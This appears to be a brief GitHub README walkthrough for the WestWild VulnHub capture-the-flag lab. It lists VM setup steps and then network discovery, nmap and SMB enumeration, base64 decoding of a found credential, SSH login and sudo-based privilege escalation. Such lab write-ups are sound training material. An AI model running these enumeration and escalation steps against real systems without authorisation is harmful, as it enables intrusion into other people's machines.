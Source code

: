 # Wild-West-VulnHub


- Go to the link : **[https://www.vulnhub.com/entry/basic-pentesting-1,216/]([https://www.vulnhub.com/entry/westwild-11,338/](https://www.vulnhub.com/entry/westwild-11,338/))**
- Download the __.ova__ file
- Download Virtual Box : **https://www.virtualbox.org/wiki/Downloads**
- In VirtualBox, to import the __.ova__ file head to *File → Import Appliance*
- Make sure to check for the network adapter *Network → Bridged Adapter*

---

- Get IP
    
    ```bash
    netdiscover
    ```
    
- Save the vulnerable device IP in a file

    ```
    IP > csec_ip
    ```
- Check the services using nmap
    
    ```bash
    nmap -A -vv IP
    ```

    ```bash
    enum4linux IP
    smbclient -L //IP
    smbclient //IP/USER
    get FLAG.txt
    get avenge.txt
    ```
    
- for hashed code, 
    
    ```bash
    echo "HASH_CODE" | base64 -d
    ```
    
    ```bash
    ssh USER@IP
    ```
    
    ```bash
    sudo -l
    ```
    
- Use priviledge escalation
    
    ```bash
    find / -writable -type d 2>/dev/null
    ```
    
    ```bash
    check all the files
    ```
    
    ```bash
    su USER2
    sudo -l
    su
    sudo -i
    ```
